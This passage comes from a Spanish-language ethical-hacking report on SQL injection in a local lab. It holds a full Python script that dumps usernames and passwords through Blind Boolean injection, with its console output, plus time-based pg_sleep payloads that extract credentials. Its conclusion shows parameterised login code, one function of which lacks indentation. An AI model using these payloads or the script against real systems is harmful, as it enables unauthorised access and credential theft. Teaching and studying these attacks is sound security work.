            return {"resultado": usuario, "auth": "true"}
        else:
            print("Usuario o cookie incorrectos")
            return {"auth": "false"}
    except PBD.DatabaseError as error:
        print("Error al autenticar usuario con cookie")
        print(error)
        return {"resultado": error}
\end{lstlisting}

El uso de \texttt{\%s} en la consulta parametrizada asegura que el valor de la cookie sea tratado como un literal y evita la ejecución de código SQL malicioso.

\subsection{Automatización de inyecciones Blind Boolean}

Realizar un ataque manual basado en inyecciones \textbf{Blind Boolean} para extraer datos sensibles de la base de datos resulta extremadamente ineficiente, debido al elevado número de consultas necesarias. Para optimizar este proceso, se ha desarrollado un script automatizado en Python que permite dumpear todos los valores de un campo especificado (\texttt{username} o \texttt{password}) de la base de datos. El script emplea peticiones HTTP con inyecciones \textbf{Blind Boolean} y analiza las respuestas para extraer información carácter por carácter y fila por fila.

A continuación, se explican las partes más importantes del script:

\subsubsection{Construcción de la inyección SQL}

El script genera dinámicamente un payload que realiza la inyección SQL específica para comprobar si un carácter en una posición concreta de un campo coincide con un valor dado. Esta función es esencial para realizar el ataque carácter por carácter.

\begin{lstlisting}[language=Python]
def construir_inyeccion(campo, posicion, caracter, indice):
    """
    Construye el payload de inyección SQL para extraer un carácter específico de una fila específica.
    """
    caracter_escapado = caracter.replace("'", "''")
    payload = (
        f"d382yd8n21df4314fn817yf6834188ls023d8d' "
        f"AND (SELECT CASE WHEN (SUBSTR({campo}, {posicion}, 1) = '{caracter_escapado}') "
        f"THEN 1 ELSE 1/0 END FROM (SELECT {campo}, ROWNUM AS rn FROM Usuarios) WHERE rn={indice}) = 1 --"
    )
    return payload
\end{lstlisting}

\textbf{Descripción de la función:}
\begin{itemize}
    \item \texttt{campo}: El nombre del campo de la base de datos (como \texttt{username} o \texttt{password}).
    \item \texttt{posicion}: La posición del carácter que se quiere comprobar.
    \item \texttt{caracter}: El carácter que se intenta validar.
    \item \texttt{indice}: El índice de la fila en la tabla que se está atacando.
\end{itemize}

El uso de \texttt{CASE WHEN} permite determinar si la condición es verdadera o falsa. Si es verdadera, se devuelve \texttt{1}; si es falsa, se genera un error controlado con \texttt{1/0}.

\subsubsection{Envío de la inyección y análisis de la respuesta}

El script envía cada payload generado al servidor mediante una petición POST. Analiza la respuesta para determinar si la inyección fue exitosa basándose en cambios observables en la interfaz.

\begin{lstlisting}[language=Python]
def enviar_inyeccion(payload):
    """
    Envía la inyección al servidor y devuelve True si se detecta un cambio en la web, False en caso contrario.
    """
    data = {
        "tipo_sqli": "blind_boolean",
        "database": "Oracle",
        "cookie_value": payload
    }
    response = requests.post(SERVER_URL, json=data, timeout=5)
    success_keywords = ["Bienvenido de nuevo"]
    for keyword in success_keywords:
        if keyword.lower() in response.text.lower():
            return True
    return False
\end{lstlisting}

\textbf{Descripción de la función:}
\begin{itemize}
    \item \texttt{payload}: La inyección SQL a enviar.
    \item \texttt{SERVER\_URL}: La URL del servidor configurada para recibir las peticiones.
    \item \texttt{success\_keywords}: Lista de palabras clave que indican un cambio visible en la respuesta (por ejemplo, el mensaje "Bienvenido de nuevo").
\end{itemize}

El script interpreta que la inyección fue exitosa si detecta alguno de los cambios definidos por \texttt{success\_keywords}.

\subsubsection{Determinación de la longitud de un campo}

Antes de extraer el valor completo de un campo, el script determina su longitud, iterando sobre posibles valores hasta encontrar una coincidencia.

\begin{lstlisting}[language=Python]
def obtener_longitud_por_fila(campo, indice, max_length=40):
    """
    Determina la longitud de un campo específico para una fila específica en la base de datos.
    """
    for longitud in range(1, max_length + 1):
        payload = (
            f"d382yd8n21df4314fn817yf6834188ls023d8d' "
            f"AND (SELECT CASE WHEN (LENGTH({campo}) = {longitud}) THEN 1 ELSE 1/0 END "
            f"FROM (SELECT {campo}, ROWNUM AS rn FROM Usuarios) WHERE rn={indice}) = 1 --"
        )
        if enviar_inyeccion(payload):
            return longitud
    return 0
\end{lstlisting}

\textbf{Descripción de la función:}
\begin{itemize}
    \item \texttt{max\_length}: Longitud máxima del campo a probar.
    \item La función construye y envía inyecciones SQL con diferentes longitudes hasta que la base de datos devuelve una respuesta positiva.
    \item Si no se encuentra una longitud dentro del rango \texttt{max\_length}, se asume que los datos están fuera de los límites definidos.
\end{itemize}

\subsubsection{Extracción del valor carácter por carácter}

Después de determinar la longitud de un campo, el script extrae su valor carácter por carácter, iterando sobre un conjunto predefinido de caracteres posibles.

\begin{lstlisting}[language=Python]
def extraer_campo(campo, longitud, indice):
    """
    Extrae el valor del campo especificado carácter por carácter para una fila específica.
    """
    resultado = ""
    caracteres = string.ascii_lowercase + string.ascii_uppercase + string.digits + string.punctuation
    for pos in range(1, longitud + 1):
        for caracter in caracteres:
            inyeccion = construir_inyeccion(campo, pos, caracter, indice)
            if enviar_inyeccion(inyeccion):
                resultado += caracter
                break
    return resultado
\end{lstlisting}

\textbf{Descripción de la función:}
\begin{itemize}
    \item \texttt{longitud}: Longitud del campo a extraer.
    \item \texttt{caracteres}: Conjunto de caracteres posibles que se probarán (letras, números y símbolos).
    \item La función construye un payload para cada posición del campo y cada carácter, identificando cuál produce un cambio en la respuesta del servidor.
\end{itemize}

\subsubsection{Menú interactivo y flujo principal}

El script presenta un menú interactivo que permite al usuario elegir entre dumpear los usuarios o las contraseñas de la base de datos.

\begin{lstlisting}[language=Python]
def menu():
    """
    Muestra el menú interactivo para que el usuario seleccione el campo a extraer.
    """
    print("Selecciona qué deseas extraer de la BD:")
    print("1. Usuarios")
    print("2. Contraseñas")
    while True:
        opcion = input("Opción (1 o 2): ").strip()
        if opcion == "1":
            return "username"
        elif opcion == "2":
            return "password"
\end{lstlisting}

El flujo principal coordina las operaciones para extraer todos los valores de un campo:

\begin{lstlisting}[language=Python]
def main():
    campo = menu()
    resultados = extraer_todos_los_campos(campo)
    for i, resultado in enumerate(resultados, start=1):
        print(f"Fila {i}: {resultado}")
\end{lstlisting}

\textbf{Nota:} En esta sección se han omitido detalles específicos del script para simplificar la explicación. Tanto el código completo del script como la salida de su ejecución en consola se encuentran en el \textbf{anexo} (\ref{sec:anexo}) para su consulta.


%-----------------------------------------------------------------------------------------------


\section{Inyección Blind basada en tiempo}

La inyección SQL basada en tiempo es una técnica utilizada para explotar vulnerabilidades en aplicaciones que interactúan con bases de datos. Este tipo de ataque pertenece a la categoría de \textbf{inyección SQL ciega} y se caracteriza por depender del tiempo de respuesta del servidor para deducir información de la base de datos.

\subsection{¿Cómo Funciona?}

\begin{enumerate}
    \item \textbf{Manipulación de consultas SQL:}  
    El atacante envía una entrada maliciosa que incluye comandos SQL diseñados para retrasar deliberadamente la respuesta del servidor.

    \item \textbf{Uso de funciones de espera:}  
    Se utilizan funciones específicas del sistema de base de datos para generar retrasos controlados. En PostgreSQL, una función comúnmente explotada es \texttt{pg\_sleep(n)}, que pausa la ejecución por \texttt{n} segundos.

    \item \textbf{Interpretación del tiempo de respuesta:}  
    \begin{itemize}
        \item Si el servidor se detiene durante el tiempo especificado, el atacante deduce que la condición evaluada es verdadera.
        \item Si no hay retraso, la condición evaluada es falsa.
    \end{itemize}

    \item \textbf{Extracción de información:}  
    A través de múltiples consultas condicionales, el atacante deduce información sensible, como nombres de bases de datos, tablas o credenciales.
\end{enumerate}

\subsection{Ejemplo Práctico}

Supongamos que la aplicación ejecuta una consulta SQL vulnerable como la siguiente:

\begin{lstlisting}[language=SQL]
SELECT * FROM usuarios WHERE nombre = '${input}' AND contrasena = '${password}';
\end{lstlisting}

Un atacante podría enviar la siguiente entrada maliciosa para deducir el primer carácter del nombre de la base de datos:

\begin{lstlisting}[language=SQL]
' OR (CASE WHEN SUBSTRING((SELECT current_database()), 1, 1) = 'n' THEN pg_sleep(5) ELSE pg_sleep(0) END) --
\end{lstlisting}

Esto generará la siguiente consulta:

\begin{lstlisting}[language=SQL]
SELECT * FROM usuarios 
WHERE nombre = '' OR 
      (CASE WHEN SUBSTRING((SELECT current_database()), 1, 1) = 'n' 
            THEN pg_sleep(5) 
            ELSE pg_sleep(0) END) -- 
AND contrasena = '';
\end{lstlisting}

\textbf{Interpretación de resultados:}
\begin{itemize}
    \item Si la consulta provoca un retraso de 5 segundos, el atacante sabe que el primer carácter del nombre de la base de datos es \texttt{'n'}.
    \item Si no hay retraso, el carácter es diferente.
\end{itemize}

El proceso se repite para deducir cada carácter del nombre de la base de datos, reconstruyendo la información deseada.
Todo esto se puede automatizar mediante la implementación de scripts. Posteriormente veremos un ejemplo práctico de un script implementado para extraer datos
del laboratorio propuesto.

\subsection{Inyecciones implementadas}

En esta subsección presentamos varias variantes de inyecciones SQL basadas en tiempo que se aplican sobre un escenario ya descrito. Estas inyecciones permiten extraer información sin necesidad de recibir directamente datos sensibles en la respuesta, simplemente utilizando el comportamiento temporal de la base de datos para validar hipótesis sobre cada carácter.

El patrón general del ataque es el siguiente:
\begin{enumerate}
    \item Formular una consulta que compare un cierto prefijo \{\texttt{p}\} de la cadena que se desea descubrir con el valor real truncado a \{\texttt{i}\} caracteres.
    \item Si el prefijo no coincide, la consulta no introduce retraso. Esta respuesta inmediata le indica al atacante que la hipótesis \{\texttt{p}\} es incorrecta.
    \item Si el prefijo coincide, la consulta desencadena una función de retardo (como \texttt{pg\_sleep}), provocando una demora en la respuesta. Dicha demora actúa como una señal para el atacante, confirmando que el prefijo es correcto.
    \item El atacante repite el proceso carácter a carácter, refinando el prefijo \{\texttt{p}\} hasta descubrir la totalidad de la cadena objetivo (ya sea un nombre de usuario, el nombre de la base de datos, una combinación de usuario-contraseña, etc.).
\end{enumerate}

A continuación, se presentan tres ejemplos concretos de inyecciones, cada uno orientado a extraer información diferente. En todos los casos, se asume que el atacante:
\begin{itemize}
    \item Conoce la existencia de las tablas o funciones involucradas (por ejemplo, \texttt{Usuarios}, \texttt{current\_database()}).
    \item Itera sobre un conjunto de posibles caracteres (letras, dígitos, signos) y valida, paso a paso, cuál es el carácter correcto en cada posición.
\end{itemize}

\subsubsection*{Inyección para obtener ``nombres de usuario''}

\begin{lstlisting}[language=SQL]
' AND ( 
    LEFT((SELECT string_agg(username, ',') FROM Usuarios), {i}) <> '{p}' 
    OR ( 
        LEFT((SELECT string_agg(username, ',') FROM Usuarios), {i}) = '{p}' 
        AND ( SELECT NULL FROM pg_sleep(2) ) IS NULL 
    ) 
) --
\end{lstlisting}

\textbf{Proceso de ataque:}
\begin{enumerate}
    \item El atacante selecciona un prefijo \texttt{\{p\}} y una posición \texttt{\{i\}} (por ejemplo, el primer carácter del primer nombre de usuario).
    \item Inyecta la consulta forzando a que, si el prefijo actual es correcto, se ejecute \texttt{pg\_sleep(2)}. Si la respuesta del servidor tarda 2 segundos, el atacante sabe que ese prefijo (hasta la \texttt{\{i\}-ésima posición}) es correcto.
    \item Si la respuesta es inmediata, el prefijo es incorrecto. El atacante entonces prueba con otro carácter, hasta encontrar el que provoca el retardo.
    \item Una vez confirmado un carácter, incrementa \texttt{\{i\}} para probar el siguiente, repitiendo este proceso caracter a caracter.
    \item De este modo, va descubriendo todos los nombres de usuario concatenados por comas.
\end{enumerate}

\subsubsection*{Inyección para obtener ``nombres de la base de datos''}

\begin{lstlisting}[language=SQL]
'
  AND (
    left(current_database(), {i}) <> '{p}' 
    OR (
      left(current_database(), {i}) = '{p}' 
      AND EXISTS (SELECT 1 FROM pg_sleep(1))
    )
  )
--
\end{lstlisting}

\textbf{Proceso de ataque:}
\begin{enumerate}
    \item El atacante comienza intentando adivinar el primer carácter del nombre de la base de datos. Usa un prefijo \texttt{\{p\}} de longitud 1 (por ejemplo, \texttt{'a'}) y establece \texttt{\{i\} = 1}.
    \item Inyecta la consulta. Si \texttt{left(current\_database(), 1) = 'a'} es cierto, la consulta entra en la parte que ejecuta \texttt{pg\_sleep(1)}, produciendo un retraso.  
    \item Si no hay retraso, el atacante prueba otro carácter en lugar de \texttt{'a'}, digamos \texttt{'b'}, y así sucesivamente, hasta provocar la demora.
    \item Una vez acertado el primer carácter, incrementa \texttt{\{i\}} a 2 y repite el procedimiento con el prefijo de dos caracteres. Continúa así sucesivamente hasta reconstruir el nombre completo de la base de datos.
\end{enumerate}

\subsubsection*{Inyección para obtener ``Usuarios y Contraseñas concatenados''}

\begin{lstlisting}[language=SQL]
' AND (
    LEFT((SELECT string_agg(username || ':' || password, ',') FROM Usuarios), {i}) <> '{p}'
    OR (
      LEFT((SELECT string_agg(username || ':' || password, ',') FROM Usuarios), {i}) = '{p}'
      AND EXISTS (SELECT 1 FROM pg_sleep(1))
    )
)
--
\end{lstlisting}

\textbf{Proceso de ataque:}
\begin{enumerate}
    \item El atacante sabe que la tabla \texttt{Usuarios} contiene nombres de usuario y contraseñas, y que la inyección generará una cadena del tipo \texttt{"usuario1:password1,usuario2:password2,\dots"}.
    \item Comienza adivinando el primer carácter del primer par \texttt{usuario:password}. Inserta un carácter candidato en \texttt{\{p\}} y usa \texttt{\{i\} = 1}.
    \item Si el servidor tarda 1 segundo (por el \texttt{pg\_sleep(1)}), el atacante confirma que el primer carácter es el correcto. De lo contrario, prueba con otro carácter.
    \item Al encontrar el primer carácter, pasa al segundo (\texttt{\{i\} = 2}), manteniendo el prefijo correcto anterior, y repite la operación.
    \item De este modo, el atacante recupera usuario y contraseña de cada cuenta, concatenados y separados por comas.
\end{enumerate}

\medskip

Estas tres variantes ilustran cómo el atacante, combinando condiciones lógicas, funciones de truncado de cadena y funciones de pausa (como \texttt{pg\_sleep}), puede filtrar información sensible de una base de datos paso a paso. El mecanismo se basa en la misma idea fundamental: el retraso deliberado confirma una hipótesis y la ausencia de retraso la niega, funcionando así como un canal encubierto de extracción de datos.





%Conclusiones (mostrar código de login seguro)
\section{Conclusiones}

En este documento se ha abordado de manera detallada el tema de las inyecciones SQL como una de las vulnerabilidades más críticas en aplicaciones web que interactúan con bases de datos. A través del análisis de diferentes técnicas de ataque, como las inyecciones basadas en UNION y las basadas en booleanos, se ha evidenciado la facilidad con la que una aplicación mal diseñada puede ser explotada, lo que resalta la importancia de implementar medidas de seguridad adecuadas.

\vspace{0,5cm}

El desarrollo de un laboratorio interactivo permitió explorar estas vulnerabilidades de manera práctica, proporcionando un entorno seguro para entender cómo ocurren los ataques, cuáles son sus impactos y cómo se pueden prevenir. Este enfoque práctico ha sido clave para comprender que la prevención de inyecciones SQL no es solo una cuestión técnica, sino también un compromiso con el diseño de sistemas seguros desde las primeras etapas del desarrollo.

\vspace{0,5cm}

Entre las principales conclusiones, se destaca que la principal causa de las inyecciones SQL es la mala validación de las entradas de usuario, como el uso de consultas dinámicas construidas mediante concatenación de parámetros. Este fallo permite a los atacantes manipular consultas y obtener acceso no autorizado a información sensible. Sin embargo, se demostró que técnicas como la vinculación de parámetros y el uso de consultas preparadas son soluciones efectivas para mitigar estos riesgos.

\vspace{0,5cm}

\begin{lstlisting}[language=Python]
def login_seguro_oracle(username, password):
    print("---login---")
    print("login_seguro")
    conexion = dbConectarOracle()
    if not conexion:
        print("Error: no se pudo conectar para autenticar.")
        return False

    try:
        cursor = conexion.cursor()
        cursor.execute("SELECT * FROM Usuarios WHERE username = :user AND password = :pass", (username, password))
        usuario = cursor.fetchone()
        cursor.close()
        if usuario:
            print("Usuario autenticado:", usuario)
            return True
        else:
            print("Usuario o contraseña incorrectos")
            return False
    except PBD.DatabaseError as error:
        print("Error al autenticar usuario")
        print(error)
        return False
\end{lstlisting}

\vspace{0,5cm}

\begin{lstlisting}[language=Python]
def login_seguro_postgresql(username, password):
print("---login---")
conexion = dbConectarPostgreSQL()  # Abre la conexión para autenticación
if not conexion:
    print("Error: no se pudo conectar para autenticar.")
    return False

try:
    cursor = conexion.cursor()
    consulta = "SELECT * FROM Usuarios WHERE username = %s AND password = %s"
    cursor.execute(consulta, [username, password])
    usuario = cursor.fetchone()
    cursor.close()
    dbDesconectar(conexion)  # Cierra la conexión después de la autenticación
    if usuario:
        print("Usuario autenticado:", usuario)
        return True
    else:
        print("Usuario o contraseña incorrectos")
        return False
except PBD.DatabaseError as error:
    print("Error al autenticar usuario")
    print(error)
    dbDesconectar(conexion)
    return False
\end{lstlisting}

\vspace{0,5cm}



Además, el principio de privilegios mínimos en las cuentas de base de datos y la auditoría constante de las aplicaciones también fueron identificados como medidas críticas para limitar el impacto de posibles ataques. La combinación de estas prácticas de desarrollo seguro con la educación y la concienciación sobre ciberseguridad es esencial para enfrentar las amenazas actuales.

\vspace{0,5cm}

En conclusión, este trabajo subraya la importancia de entender y mitigar las inyecciones SQL en el contexto del hacking ético y la seguridad de bases de datos. No solo se trata de proteger los datos de las organizaciones y sus usuarios, sino también de garantizar la confianza en las aplicaciones que forman parte del mundo digital. Este esfuerzo requiere un enfoque continuo en la mejora de las prácticas de desarrollo y la adopción de medidas de seguridad robustas como parte integral del ciclo de vida del software.



%Anexo (Cajon desastre para codigo completo, ejecuciones completas, etc)
\section{Anexo}
\label{sec:anexo}
A continuación se presenta el código completo del script de Python desarrollado para automatizar inyecciones \textbf{Blind Boolean}.

\subsection{Código completo del script}

\begin{lstlisting}[language=Python, basicstyle=\ttfamily\footnotesize]
import requests
from termcolor import colored
from yaspin import yaspin
import string
import signal
import sys
import time


# Controlar CTRL+C para una salida limpia
def signal_handler(sig, frame):
    print(colored('\n[!] Interrupción por el usuario. Saliendo...', "red"))
    sys.exit(0)


signal.signal(signal.SIGINT, signal_handler)

# Configuración del servidor
SERVER_URL = "http://127.0.0.1:5000/cookie"  # Endpoint para inyecciones booleanas


def construir_inyeccion(campo, posicion, caracter, indice):
    """
    Construye el payload de inyección SQL para extraer un carácter específico de una fila específica.
    """
    # Escapar apóstrofes en el carácter
    caracter_escapado = caracter.replace("'", "''")

    # Construir el payload para una fila específica
    payload = (
        f"d382yd8n21df4314fn817yf6834188ls023d8d' "
        f"AND (SELECT CASE WHEN (SUBSTR({campo}, {posicion}, 1) = '{caracter_escapado}') "
        f"THEN 1 ELSE 1/0 END FROM (SELECT {campo}, ROWNUM AS rn FROM Usuarios) WHERE rn={indice}) = 1 --"
    )

    return payload


def enviar_inyeccion(payload):
    """
    Envía la inyección al servidor y devuelve True si se detecta un cambio en la web, False en caso contrario.
    """
    data = {
        "tipo_sqli": "blind_boolean",
        "database": "Oracle",
        "cookie_value": payload
    }

    try:
        time.sleep(0.1)  # Opcional: Añadir un pequeño retraso para no sobrecargar el servidor
        response = requests.post(SERVER_URL, json=data, timeout=5, allow_redirects=True)

        # Lista de palabras clave que indican un cambio en la web
        success_keywords = ["Bienvenido de nuevo"]
        for keyword in success_keywords:
            if keyword.lower() in response.text.lower():
                return True
        return False
    except requests.exceptions.Timeout:
        print(colored("[!] Timeout durante la solicitud", "red"))
        return False
    except requests.exceptions.RequestException as e:
        print(colored(f"[!] Error en la petición: {e}", "red"))
        return False


def obtener_longitud_por_fila(campo, indice, max_length=40): # Asumimos que como máximo un campo tendrá 40 caracteres
    """
    Determina la longitud de un campo específico para una fila específica en la base de datos.
    """
    print(colored(f"\n[+] Determinando la longitud de '{campo}' para la fila {indice}...", "yellow"))
    for longitud in range(1, max_length + 1):
        # Construir el payload con el índice de la fila
        payload = (
            f"d382yd8n21df4314fn817yf6834188ls023d8d' "
            f"AND (SELECT CASE WHEN (LENGTH({campo}) = {longitud}) THEN 1 ELSE 1/0 END FROM "
            f"(SELECT {campo}, ROWNUM AS rn FROM Usuarios) WHERE rn={indice}) = 1 --"
        )
        with yaspin(text=f"Probando longitud {longitud} para la fila {indice}...", color=None, attrs=None) as spinner:
            time.sleep(0.1)  # Reducir la carga en el servidor
            if enviar_inyeccion(payload):
                spinner.ok("OK")
                print(colored(f"[*] La longitud de '{campo}' en la fila {indice} es: {longitud}", "green"))
                return longitud
            else:
                spinner.fail("FAIL")
    print(colored(f"[!] No se pudo determinar la longitud de '{campo}' en la fila {indice}.", "red"))
    return 0


def extraer_campo(campo, longitud, indice):
    """
    Extrae el valor del campo especificado carácter por carácter para una fila específica.
    """
    resultado = ""
    # Limitar el conjunto de caracteres a probar para mayor eficiencia
    caracteres = string.ascii_lowercase + string.ascii_uppercase + string.digits + string.punctuation
    print(colored(f"\n[+] Extrayendo el valor de '{campo}' para la fila {indice}...", "yellow"))

    for pos in range(1, longitud + 1):
        encontrado = False
        print(colored(f"\n[+] Extrayendo carácter {pos} de {longitud} para la fila {indice}...", "cyan"))
        with yaspin(text=f"Probando carácter en posición {pos}...", color=None, attrs=None) as spinner:
            for caracter in caracteres:
                inyeccion = construir_inyeccion(campo, pos, caracter, indice)
                if enviar_inyeccion(inyeccion):
                    resultado += caracter
                    spinner.text = f"Carácter {pos}: '{caracter}' encontrado."
                    spinner.ok("OK")
                    print(colored(f"[+] Inyección utilizada: {inyeccion}", "cyan"))
                    encontrado = True
                    break
                time.sleep(0.05)  # Opcional: Reducir la carga en el servidor
            if not encontrado:
                spinner.fail("FAIL")
                print(colored(f"[!] No se encontró un carácter coincidente en la posición {pos}.", "red"))
                resultado += '?'
    return resultado


def extraer_todos_los_campos(campo, max_filas=10):
    """
    Extrae todos los valores del campo especificado, iterando sobre todas las filas de la tabla.
    """
    resultados = []
    for indice in range(1, max_filas + 1):
        print(colored(f"\n[+] Extrayendo datos para la fila {indice}...", "yellow"))
        # Usar la nueva función para determinar la longitud de esta fila específica
        longitud = obtener_longitud_por_fila(campo, indice)
        if longitud == 0:
            print(colored(f"[!] No se encontró longitud para la fila {indice}. Asumiendo fin de datos.", "red"))
            break
        # Extraer el valor de esta fila específica
        valor = extraer_campo(campo, longitud, indice)
        resultados.append(valor)
        print(colored(f"[+] Valor extraído para la fila {indice}: {valor}", "green"))
    return resultados

def mostrar_banner():
    print(colored("   ___  ___         __    ___            __            ", "cyan"))
    print(colored("  / _ )/ (_)__  ___/ /   / _ )___  ___  / /__ ___ ____ ", "cyan"))
    print(colored(" / _  / / / _ \\/ _  /   / _  / _ \\/ _ \\/ / -_) _ `/ _ \\", "cyan"))
    print(colored("/____/_/_/_//_/\\_,_/   /____/\\___/\\___/_/\\__/\\_,_/_//_/", "cyan"))
    print(colored("   ________    __   ____       ____        _      __      ", "yellow"))
    print(colored("  / __/ __ \\  / /  /  _/      / __/_______(_)__  / /_     ", "yellow"))
    print(colored(" _\\ \\/ /_/ / / /___/ /      _\\ \\/ __/ __/ / _ \\/ __/     ", "yellow"))
    print(colored("/___/\\___\\_\\/____/___/     /___/\\__/_/ /_/ .__/\\__/      ", "yellow"))
    print(colored("                                        /_/             ", "yellow"))

def menu():
    """
    Muestra el menú interactivo para que el usuario seleccione el campo a extraer.
    """
    mostrar_banner()
    print(colored("Selecciona qué deseas extraer de la BD:", "yellow"))
    print(colored("1. Usuarios", "magenta"))
    print(colored("2. Contraseñas", "magenta"))

    while True:
        opcion = input("Opción (1 o 2): ").strip()
        if opcion == "1":
            campo = "username"
            break
        elif opcion == "2":
            campo = "password"
            break
        else:
            print(colored("[!] Introduce una opción válida (1 o 2).", "red"))

    return campo


def main():
    """
    Función principal que coordina el proceso de inyección SQL para extraer múltiples filas.
    """
    start_time = time.time()
    campo = menu()
    resultados = extraer_todos_los_campos(campo)
    print(colored("\n[+] Resultados completos:", "blue", attrs=["bold"]))
    for i, resultado in enumerate(resultados, start=1):
        if campo == "username":
            print(colored(f"Usuario {i}: {resultado}", "cyan"))
        else:
            print(colored(f"Contraseña {i}: {resultado}", "green"))

    print(colored(f"\n[+] Tiempo de ejecución: {round(time.time() - start_time, 2)} segundos", "blue", attrs=["bold"]))


if __name__ == "__main__":
    main()
\end{lstlisting}

\subsection{Ejecución completa del script dumpeando usuarios}
A continuación se muestra la ejecución completa del script para extraer los nombres de usuario de la base de datos.

\begin{lstlisting}[style=console, basicstyle=\ttfamily\footnotesize]
    ___  ___         __    ___            __            
   / _ )/ (_)__  ___/ /   / _ )___  ___  / /__ ___ ____ 
  / _  / / / _ \/ _  /   / _  / _ \/ _ \/ / -_) _ `/ _ \
 /____/_/_/_//_/\_,_/   /____/\___/\___/_/\__/\_,_/_//_/
    ________    __   ____       ____        _      __      
   / __/ __ \  / /  /  _/      / __/_______(_)__  / /_     
  _\ \/ /_/ / / /___/ /      _\ \/ __/ __/ / _ \/ __/     
 /___/\___\_\/____/___/     /___/\__/_/ /_/ .__/\__/      
                                         /_/             
 Selecciona qué deseas extraer de la BD:
 1. Usuarios
 2. Contraseñas
 Opción (1 o 2): 1
 
 [+] Extrayendo datos para la fila 1...
 
 [+] Determinando la longitud de 'username' para la fila 1...
 FAIL Probando longitud 1 para la fila 1...
 FAIL Probando longitud 2 para la fila 1...
 FAIL Probando longitud 3 para la fila 1...
 FAIL Probando longitud 4 para la fila 1...
 OK Probando longitud 5 para la fila 1...
 [*] La longitud de 'username' en la fila 1 es: 5
 
 [+] Extrayendo el valor de 'username' para la fila 1...
 
 [+] Extrayendo carácter 1 de 5 para la fila 1...
 OK Carácter 1: 'a' encontrado.
 [+] Inyección utilizada: d382yd8n21df4314fn817yf6834188ls023d8d' AND (SELECT CASE WHEN (SUBSTR(username, 1, 1) = 'a') THEN 1 ELSE 1/0 END FROM (SELECT username, ROWNUM AS rn FROM Usuarios) WHERE rn=1) = 1 --
 
 [+] Extrayendo carácter 2 de 5 para la fila 1...
 OK Carácter 2: 'd' encontrado.
 [+] Inyección utilizada: d382yd8n21df4314fn817yf6834188ls023d8d' AND (SELECT CASE WHEN (SUBSTR(username, 2, 1) = 'd') THEN 1 ELSE 1/0 END FROM (SELECT username, ROWNUM AS rn FROM Usuarios) WHERE rn=1) = 1 --
 
 [+] Extrayendo carácter 3 de 5 para la fila 1...
 OK Carácter 3: 'm' encontrado.
 [+] Inyección utilizada: d382yd8n21df4314fn817yf6834188ls023d8d' AND (SELECT CASE WHEN (SUBSTR(username, 3, 1) = 'm') THEN 1 ELSE 1/0 END FROM (SELECT username, ROWNUM AS rn FROM Usuarios) WHERE rn=1) = 1 --
 
 [+] Extrayendo carácter 4 de 5 para la fila 1...
 OK Carácter 4: 'i' encontrado.
 [+] Inyección utilizada: d382yd8n21df4314fn817yf6834188ls023d8d' AND (SELECT CASE WHEN (SUBSTR(username, 4, 1) = 'i') THEN 1 ELSE 1/0 END FROM (SELECT username, ROWNUM AS rn FROM Usuarios) WHERE rn=1) = 1 --
 
 [+] Extrayendo carácter 5 de 5 para la fila 1...
 OK Carácter 5: 'n' encontrado.
 [+] Inyección utilizada: d382yd8n21df4314fn817yf6834188ls023d8d' AND (SELECT CASE WHEN (SUBSTR(username, 5, 1) = 'n') THEN 1 ELSE 1/0 END FROM (SELECT username, ROWNUM AS rn FROM Usuarios) WHERE rn=1) = 1 --
 [+] Valor extraído para la fila 1: admin
 
 [+] Extrayendo datos para la fila 2...
 
 [+] Determinando la longitud de 'username' para la fila 2...
 FAIL Probando longitud 1 para la fila 2...
 FAIL Probando longitud 2 para la fila 2...
 FAIL Probando longitud 3 para la fila 2...
 FAIL Probando longitud 4 para la fila 2...
 OK Probando longitud 5 para la fila 2...
 [*] La longitud de 'username' en la fila 2 es: 5
 
 [+] Extrayendo el valor de 'username' para la fila 2...
 
 [+] Extrayendo carácter 1 de 5 para la fila 2...
 OK Carácter 1: 'u' encontrado.
 [+] Inyección utilizada: d382yd8n21df4314fn817yf6834188ls023d8d' AND (SELECT CASE WHEN (SUBSTR(username, 1, 1) = 'u') THEN 1 ELSE 1/0 END FROM (SELECT username, ROWNUM AS rn FROM Usuarios) WHERE rn=2) = 1 --
 
 [+] Extrayendo carácter 2 de 5 para la fila 2...
 OK Carácter 2: 's' encontrado.
 [+] Inyección utilizada: d382yd8n21df4314fn817yf6834188ls023d8d' AND (SELECT CASE WHEN (SUBSTR(username, 2, 1) = 's') THEN 1 ELSE 1/0 END FROM (SELECT username, ROWNUM AS rn FROM Usuarios) WHERE rn=2) = 1 --
 
 [+] Extrayendo carácter 3 de 5 para la fila 2...
 OK Carácter 3: 'e' encontrado.
 [+] Inyección utilizada: d382yd8n21df4314fn817yf6834188ls023d8d' AND (SELECT CASE WHEN (SUBSTR(username, 3, 1) = 'e') THEN 1 ELSE 1/0 END FROM (SELECT username, ROWNUM AS rn FROM Usuarios) WHERE rn=2) = 1 --
 
 [+] Extrayendo carácter 4 de 5 para la fila 2...
 OK Carácter 4: 'r' encontrado.
 [+] Inyección utilizada: d382yd8n21df4314fn817yf6834188ls023d8d' AND (SELECT CASE WHEN (SUBSTR(username, 4, 1) = 'r') THEN 1 ELSE 1/0 END FROM (SELECT username, ROWNUM AS rn FROM Usuarios) WHERE rn=2) = 1 --
 
 [+] Extrayendo carácter 5 de 5 para la fila 2...
 OK Carácter 5: '1' encontrado.
 [+] Inyección utilizada: d382yd8n21df4314fn817yf6834188ls023d8d' AND (SELECT CASE WHEN (SUBSTR(username, 5, 1) = '1') THEN 1 ELSE 1/0 END FROM (SELECT username, ROWNUM AS rn FROM Usuarios) WHERE rn=2) = 1 --
 [+] Valor extraído para la fila 2: user1
 
 [+] Extrayendo datos para la fila 3...
 
 [+] Determinando la longitud de 'username' para la fila 3...
 FAIL Probando longitud 1 para la fila 3...
 FAIL Probando longitud 2 para la fila 3...
 FAIL Probando longitud 3 para la fila 3...
 FAIL Probando longitud 4 para la fila 3...
 OK Probando longitud 5 para la fila 3...
 [*] La longitud de 'username' en la fila 3 es: 5
 
 [+] Extrayendo el valor de 'username' para la fila 3...
 
 [+] Extrayendo carácter 1 de 5 para la fila 3...
 OK Carácter 1: 'u' encontrado.
 [+] Inyección utilizada: d382yd8n21df4314fn817yf6834188ls023d8d' AND (SELECT CASE WHEN (SUBSTR(username, 1, 1) = 'u') THEN 1 ELSE 1/0 END FROM (SELECT username, ROWNUM AS rn FROM Usuarios) WHERE rn=3) = 1 --
 
 [+] Extrayendo carácter 2 de 5 para la fila 3...
 OK Carácter 2: 's' encontrado.
